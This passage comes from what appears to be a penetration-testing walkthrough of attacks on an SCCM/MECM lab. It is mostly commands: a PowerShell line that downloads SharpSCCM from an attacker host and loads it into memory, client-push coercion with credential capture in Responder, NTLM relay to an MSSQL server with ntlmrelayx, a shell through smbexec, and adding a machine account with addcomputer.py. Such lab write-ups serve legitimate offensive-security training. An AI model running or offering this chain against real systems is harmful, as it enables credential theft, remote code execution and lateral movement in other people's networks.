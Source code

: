 - And then launch SharpSCCM in memory

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.33.1:8888/SharpSCCM_merged.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

![sccm_client_push.png](/assets/blog/SCCM/sccm_client_push.png)

- A few moment later on responder, the client-push account (local admin of sccm client !) and the MECM$ computer account (admin of at least the mssql server)

![sccm_client_push_responder.png](/assets/blog/SCCM/sccm_client_push_responder.png)

- Now we have confirmation of the account involve let's relay to mssql server
- Prepare the relay :

```bash
ntlmrelayx.py -t 192.168.33.12  -smb2support -socks
```

- relaunch the client push
```powershell
[SharpSCCM.Program]::Main("invoke client-push -mp mecm.sccm.lab -sc P01 -t 192.168.33.1".split());
```

- And get a shell with the relay

```bash
proxychains -q smbexec.py -no-pass SCCM.LAB/SCCM-CLIENT-PUSH@192.168.33.12
```
![sccm_client_push_relay_smb.png](/assets/blog/SCCM/sccm_client_push_relay_smb.png)


> Warning this will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![unexpected_devices.png](/assets/blog/SCCM/unexpected_devices.png)
{: .prompt-warning }

## Cred-2 - Policy Request Credentials - Computer account get secrets of NAA (computer account -> naa account)

- Add a computer:

```bash
addcomputer.py -computer-name 'exegol$' -computer-pass 'maytheforcebewithyou' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10
```

![sccm_add_computer.png](/assets/blog/SCCM/sccm_add_computer.png)

### from linux
- details [here](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
